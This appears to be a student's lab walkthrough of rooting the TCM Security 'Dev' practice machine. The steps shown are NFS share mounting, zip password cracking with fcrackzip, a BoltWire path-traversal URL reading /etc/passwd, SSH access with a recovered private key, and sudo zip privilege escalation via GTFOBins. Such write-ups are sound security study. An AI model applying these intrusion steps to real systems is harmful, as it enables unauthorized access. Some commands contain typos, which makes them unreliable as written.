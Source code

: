 # Exploitation

2049/tcp  open  nfs      3-4 (RPC #100003): we have this port open which we can try connecting to : 

to connect to this we will use this commands; 

1. `apt install nfs-common`

2. `sytstmectl start rcpbind`

3. `showmount -e <target ip>`

4. `mount <server ip>:/srv/nfs /home/kali/Downloads/nfs` 

5. `df -h`
   

through this we found one zip file pass protected ; 

to crack the password we used a tool called fcrackzip

we cracked it through the following command: 

1. `apt installl fcrackzip` 
2. `fcrackzip -u -v -D -p /usr/share/wordlists/rockyou.txt <name of the zip >`
   
unziping it gve us two files:
1. a todo.txt
2. #### id_rsa file :
that contains the private key of an SSH key pair. SSH keys are used to authenticate a client to an SSH server securely. The key pair consists of a public key and a private key. The private key, stored in the **id_rsa** file, should be kept secret and secure, while the public key can be shared freely.

we used it to connect to ssh of user , root but didnt work as it was still asking for a password and we didnt have that: 
the cmd we used to connect : 
ssh -i id_rsa user@192.168.171.130
so we checked for the boltwire exploit we got this :
![Employee data](https://github.com/Khushiiipanwar/Solving-Dev-Machine-by-TCM-Security-/blob/main/images/6.png?raw=true "Employee Data title")

doing this does not work: http://192.168.171.130/boltwire/index.php?p=action.search&action=../../../../../../../etc/passwd
so instead we tried it on port 8080 one which already had half of it in the url so we just added more then we got the results 
![Employee data](https://github.com/Khushiiipanwar/Solving-Dev-Machine-by-TCM-Security-/blob/main/images/7.png?raw=true "Employee Data title")
![Employee data](https://github.com/Khushiiipanwar/Solving-Dev-Machine-by-TCM-Security-/blob/main/images/8.png?raw=true "Employee Data title")
![Employee data](https://github.com/Khushiiipanwar/Solving-Dev-Machine-by-TCM-Security-/blob/main/images/9.png?raw=true "Employee Data title")

we also have jp we found in the todo.txt in the zip file we cn use his username  to connect to the ssh using the id_rsa file provided in the zip file : 

![Employee data](https://github.com/Khushiiipanwar/Solving-Dev-Machine-by-TCM-Security-/blob/main/images/10.png?raw=true "Employee Data title")

it was saying pkfile is not safe so we changed user permissions and then tried connecting to it : 
![Employee data](https://github.com/Khushiiipanwar/Solving-Dev-Machine-by-TCM-Security-/blob/main/images/11.png?raw=true "Employee Data title")

the password was I_love_java we found in the config file on the target website.
then use history  to know for history 
and using sudo -l for knowing what elvated privileges uyou may use without a password 

![Employee data](https://github.com/Khushiiipanwar/Solving-Dev-Machine-by-TCM-Security-/blob/main/images/12.png?raw=true "Employee Data title")

so we got one of them bing zip so we are going to abuse it by 

1. go to gtfobins on a browser

2. open first link 

3. click on sudo 

4. search for zip then clickk on zip and execute each command one by one which gives root privilege.
5. 
![Employee data](https://github.com/Khushiiipanwar/Solving-Dev-Machine-by-TCM-Security-/blob/main/images/13.png?raw=true "Employee Data title")
![Employee data](https://github.com/Khushiiipanwar/Solving-Dev-Machine-by-TCM-Security-/blob/main/images/14.png?raw=true "Employee Data title")

## finally rooting the box. 







